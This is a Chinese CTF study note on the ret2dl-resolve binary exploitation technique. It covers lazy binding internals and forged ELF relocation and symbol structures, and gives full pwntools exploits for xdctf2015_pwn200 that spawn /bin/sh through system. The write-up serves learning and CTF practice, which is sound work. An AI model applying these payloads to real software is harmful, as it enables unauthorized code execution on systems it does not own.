



最近在做一道题时,感觉很像ret2dl-resolve能解的,但是最后发现是自己太菜理念不清搞错解题方向ret2dl-resolve并不能解。所以写文重新温习下ret2dl-resolve,防止下次踩坑。
ret2dl-resolve原理与使用条件 ret2dl-resolve是不需要信息泄露，而是通过动态装载器来直接标识关键函数的位置并调用它们。由于ret2dl-resolve主要是针对延迟绑定来进行操作的，so它可以绕过多种包括专门为保护 ELF 数据结构不被破坏而设计的 RELRO 在内的安全缓解措施。但在依然有条件限制：
1.需要没有开启 Full RELRO 保护，换句话说要开启延迟绑定的机制，即库函数在第一次被调用时才将函数的真正地址填入 GOT 表以完成绑定。（这个是重要条件）
2.要有能被程序读取数据段上写入Elf_Sym 结构体的空间。
3.能恶意构造一个Elf_Sym 结构体。
延迟绑定动态解析过程梳理 在一个存在延迟绑定机制程序中,库函数在第一次被调用时才将函数的真正地址填入 GOT 表以完成绑定。
这过程中牵扯到两个重要的结构体Elf_Rel与Elf_Sym.
重定位项使用 Elf_Rel 结构体来描述，存在于.rep.plt 段和 .rel.dyn段中：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 typedef uint32_t Elf32_Addr;typedef uint32_t Elf32_Word;typedef struct { Elf32_Addr r_offset; Elf32_Word r_info; } Elf32_Rel; typedef uint64_t Elf64_Addr;typedef uint64_t Elf64_Xword;typedef int64_t Elf64_Sxword;typedef struct { Elf64_Addr r_offset; Elf64_Xword r_info; Elf64_Sxword r_addend; } Elf64_Rela;
32 位程序使用 REL，而 64 位程序使用 RELA。
其中r_info被宏定义为按如下方式解析和插入：
1 2 3 4 5 6 7 8 9 #define ELF32_R_SYM(val) ((val) >> 8) #define ELF32_R_TYPE(val) ((val) & 0xff) #define ELF32_R_INFO(sym, type) (((sym) << 8) + ((type) & 0xff)) #define ELF64_R_SYM(i) ((i) >> 32) #define ELF64_R_TYPE(i) ((i) & 0xffffffff) #define ELF64_R_INFO(sym,type) ((((Elf64_Xword) (sym)) << 32) + (type))
而每个符号使用Elf_Sym结构体来描述，存在于.dynsym段和.symtab段中，而 .symtab 在strip之后会被删掉：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 typedef struct { Elf32_Word st_name; Elf32_Addr st_value; Elf32_Word st_size; unsigned char st_info; unsigned char st_other; Elf32_Section st_shndx; } Elf32_Sym; typedef struct { Elf64_Word st_name; unsigned char st_info; unsigned char st_other; Elf64_Section st_shndx; Elf64_Addr st_value; Elf64_Xword st_size; } Elf64_Sym;
下面的宏描述了 st_info 是怎样被解析和插入的：
1 2 3 4 5 6 7 8 9 10 #define ELF32_ST_BIND(val) (((unsigned char) (val)) >> 4) #define ELF32_ST_TYPE(val) ((val) & 0xf) #define ELF32_ST_INFO(bind, type) (((bind) << 4) + ((type) & 0xf)) #define ELF64_ST_BIND(val) ELF32_ST_BIND (val) #define ELF64_ST_TYPE(val) ELF32_ST_TYPE (val) #define ELF64_ST_INFO(bind, type) ELF32_ST_INFO ((bind), (type))
当一个库函数被第一次调用时，具体动态解析过程的步骤为：
导入函数的reloc_index标识(一个ELF_Rel在 .rel.plt中的偏移)入栈。
然后跳转到.plt 段的开头,即 PLT[0]。PLT[0] 处的代码将 GOT[1] 的值压入栈中，然后跳转到 GOT[2]。 GOT[1]与GOT[2]这两个 GOT 表条目有着特殊的含义。
GOT[1]：一个指向内部数据结构的指针，类型是 link_map，在动态装载器内部使用，包含了进行符号解析需要的当前 ELF 对象的信息。在它的l_info 域中保存了.dynamic 段中大多数条目的指针构成的一个数组。
GOT[2]：一个指向动态装载器中 _dl_runtime_resolve 函数的指针。
所以这步，PLT[0] 其实就是调用_dl_runtime_resolve(link_map_obj, reloc_index)
_dl_runtime_resolve函数使用参数link_map_obj来获取解析导入函数（使用reloc_index参数标识）需要的信息，并将结果写到正确的 GOT 条目中。在 _dl_runtime_resolve解析完成后，控制流就交到了那个函数手里，而下次再调用函数的 plt 时，就会直接进入目标函数中执行。过程如下图：

ret2dl-resolve利用点 ret2dl-resolve利用点主要有两个地方。
a：因为动态转载器是从.dynamic段的 DT_STRTAB条目中获得.dynstr段的地址的，而 DT_STRTAB条目的位置已知，默认情况下也可写。所以攻击者能够改写DT_STRTAB条目的内容，欺骗动态装载器，让它以为 .dynstr段在 .bss段中，并在那里伪造一个假的字符串表。当它尝试解析printf 时会使用不同的基地址来寻找函数名，最终执行的是execve。这种方式非常简单，但仅当二进制程序的.dynamic段可写*
b：我们已经知道 _dl_runtime_resolve 的第二个参数是Elf_Rel条目在 .rel.plt段中的偏移，动态装载器将这个值加上.rel.plt 的基址来得到目标结构体的绝对位置。然后当传递给_dl_runtime_resolve 的参数 reloc_index超出了.rel.plt 段，并最终落在.bss段中时，攻击者可以在该位置伪造了一个Elf_Rel结构，并填写r_offset的值为一个可写的内存地址来将解析后的函数地址写在那里，同理r_info也会是一个将动态装载器导向到攻击者控制内存的下标。这个下标就指向一个位于它后面的 Elf_Sym 结构，而 Elf_Sym结构中的 st_name同样超出了 .dynsym段。这样这个符号就会包含一个相对于.dynstr地址足够大的偏移使其能够达到这个符号之后的一段内存，而那段内存里保存着这个将要调用的函数的名称。

手动 payload流程构造梳理 以32位程序来梳理下过程：
第一步，对于正常函数而言我们调用动态连接的后write函数作payload：
1 2 3 4 5 6 7 8 9 payload = "AAAA" payload += p32(write_plt) payload += "AAAA" payload += p32(1 ) payload += p32(base_addr + 80 ) payload += p32(len("/bin/sh" )) payload += "A" * (80 - len(payload_2)) payload += "/bin/sh\x00" payload += "A" * (100 - len(payload_2))
第二步，我们伪造write@plt，及入栈reloc_index和跳转PLT[0]，那么payload改为：
1 2 3 4 5 6 7 8 9 10 11 cmd="/bin/sh" payload2 = 'AAAA' payload2 += p32(plt_0) payload2 += p32(index_offset) payload2 += 'AAAA' payload2 += p32(1 ) payload2 += p32(base_stage + 80 ) payload2 += p32(len(cmd)) payload2 += 'A' * (80 - len(payload2)) payload2 += cmd + '\x00' payload2 += 'A' * (100 - len(payload2))
第三步，伪造一个 write 函数的 Elf_Rel结构体。
其中设置r_offset为write@got，标函数解析后的内存地址存放到该位置。
r_info用readelf -r ./bof | grep write查找后照搬。动态加载器会根据这个值找到对应的Elf_Sym
reloc_index要调整为我们伪造 Elf_Rel结构体相对.rel.plt的偏移。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 cmd = "/bin/sh" plt_0 = 0x08048380 rel_plt = 0x08048330 index_offset = (base_stage + 28 ) - rel_plt write_got = elf.got['write' ] r_info = 0x607 fake_reloc = p32(write_got) + p32(r_info) payload2 = 'AAAA' payload2 += p32(plt_0) payload2 += p32(index_offset) payload2 += 'AAAA' payload2 += p32(1 ) payload2 += p32(base_stage + 80 ) payload2 += p32(len(cmd)) payload2 += fake_reloc payload2 += 'A' * (80 - len(payload2)) payload2 += cmd + '\x00' payload2 += 'A' * (100 - len(payload2))
第四步，伪造一个 write 函数的 Elf_Sym结构体。
用readelf -s ./bof | grep write 然然后用objdump来找st_name与st_info

同时，Elf_Rel结构体也要改变r_info可以通过r_sym和r_type计算。
r_sym又是Elf_Sym相对.dynsym的偏移，r_type照搬R_386_JUMP_SLOT的值为0x7
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 cmd = "/bin/sh" plt_0 = 0x08048380 rel_plt = 0x08048330 index_offset = (base_stage + 28 ) - rel_plt write_got = elf.got['write' ] dynsym = 0x080481d8 dynstr = 0x08048278 fake_sym_addr = base_stage + 36 align = 0x10 - ((fake_sym_addr - dynsym) & 0xf ) fake_sym_addr = fake_sym_addr + align index_dynsym = (fake_sym_addr - dynsym) / 0x10 r_sym=index_dynsym << 8 r_type=0x7 r_info = (r_sym) | r_type fake_reloc = p32(write_got) + p32(r_info) st_name = 0x4c fake_sym = p32(st_name) + p32(0 ) + p32(0 ) + p32(0x12 ) payload2 = 'AAAA' payload2 += p32(plt_0) payload2 += p32(index_offset) payload2 += 'AAAA' payload2 += p32(1 ) payload2 += p32(base_stage + 80 ) payload2 += p32(len(cmd)) payload2 += fake_reloc payload2 += 'B' * align payload2 += fake_sym payload2 += 'A' * (80 - len(payload2)) payload2 += cmd + '\x00' payload2 += 'A' * (100 - len(payload2)) r.sendline(payload2)
第五步，伪造.bss 上伪造.dynstr,放入伪造函数名write。相应调整st_name指向的伪造函数名。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 cmd = "/bin/sh" plt_0 = 0x08048380 rel_plt = 0x08048330 index_offset = (base_stage + 28 ) - rel_plt write_got = elf.got['write' ] dynsym = 0x080481d8 dynstr = 0x08048278 fake_sym_addr = base_stage + 36 align = 0x10 - ((fake_sym_addr - dynsym) & 0xf ) fake_sym_addr = fake_sym_addr + align index_dynsym = (fake_sym_addr - dynsym) / 0x10 r_sym=index_dynsym << 8 r_type=0x7 r_info = (r_sym) | r_type fake_reloc = p32(write_got) + p32(r_info) st_name = (fake_sym_addr + 16 ) - dynstr fake_sym = p32(st_name) + p32(0 ) + p32(0 ) + p32(0x12 ) payload2 = 'AAAA' payload2 += p32(plt_0) payload2 += p32(index_offset) payload2 += 'AAAA' payload2 += p32(1 ) payload2 += p32(base_stage + 80 ) payload2 += p32(len(cmd)) payload2 += fake_reloc payload2 += 'B' * align payload2 += fake_sym payload2 += "write\x00" payload2 += 'A' * (80 - len(payload2)) payload2 += cmd + '\x00' payload2 += 'A' * (100 - len(payload2))
最后改’write’为system.
例题：xdctf2015_pwn200 按之前手动的分析，完整exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 from pwn import *elf = ELF('./bof' ) offset = 112 read_plt = elf.plt['read' ] write_plt = elf.plt['write' ] ppp_ret = 0x08048619 pop_ebp_ret = 0x0804861b leave_ret = 0x08048458 stack_size = 0x800 bss_addr = 0x0804a040 base_stage = bss_addr + stack_size r = process('bof' ) r.recvuntil('Welcome to XDCTF2015~!\n' ) payload = 'A' * offset payload += p32(read_plt) payload += p32(ppp_ret) payload += p32(0 ) payload += p32(base_stage) payload += p32(100 ) payload += p32(pop_ebp_ret) payload += p32(base_stage) payload += p32(leave_ret) r.sendline(payload) cmd = "/bin/sh" plt_0 = 0x08048380 rel_plt = 0x08048330 index_offset = (base_stage + 28 ) - rel_plt write_got = elf.got['write' ] dynsym = 0x080481d8 dynstr = 0x08048278 fake_sym_addr = base_stage + 36 align = 0x10 - ((fake_sym_addr - dynsym) & 0xf ) fake_sym_addr = fake_sym_addr + align index_dynsym = (fake_sym_addr - dynsym) / 0x10 r_info = (index_dynsym << 8 ) | 0x7 fake_reloc = p32(write_got) + p32(r_info) st_name = (fake_sym_addr + 16 ) - dynstr fake_sym = p32(st_name) + p32(0 ) + p32(0 ) + p32(0x12 ) payload2 = 'AAAA' payload2 += p32(plt_0) payload2 += p32(index_offset) payload2 += 'AAAA' payload2 += p32(base_stage + 80 ) payload2 += 'aaaa' payload2 += 'aaaa' payload2 += fake_reloc payload2 += 'B' * align payload2 += fake_sym payload2 += "system\x00" payload2 += 'A' * (80 - len(payload2)) payload2 += cmd + '\x00' payload2 += 'A' * (100 - len(payload2)) gdb.attach(r) r.sendline(payload2) r.interactive()
同时，我们还可以通过pwntools 的Ret2dlresolvePayload来自动完成需要手动的伪造步骤：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from pwn import *p=process('./bof' ) rop = ROP("./bof" ) elf = ELF("./bof" ) dlresolve = Ret2dlresolvePayload(elf, symbol="system" , args=["/bin/sh" ]) rop.read(0 , dlresolve.data_addr) rop.ret2dlresolve(dlresolve) raw_rop = rop.chain() print(rop.dump()) print(hex(dlresolve.data_addr)) payload = "A" *112 payload += raw_rop p.sendline(payload) payload= dlresolve.payload gdb.attach(p) p.sendline(payload) p.interactive()
参考文献 https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/6.1.3_pwn_xdctf2015_pwn200.html
https://ctf-wiki.github.io/ctf-wiki/
https://github.com/datajerk/ctf-write-ups/blob/master/umdctf2021/jie-jne-jnw/exploit-jie.py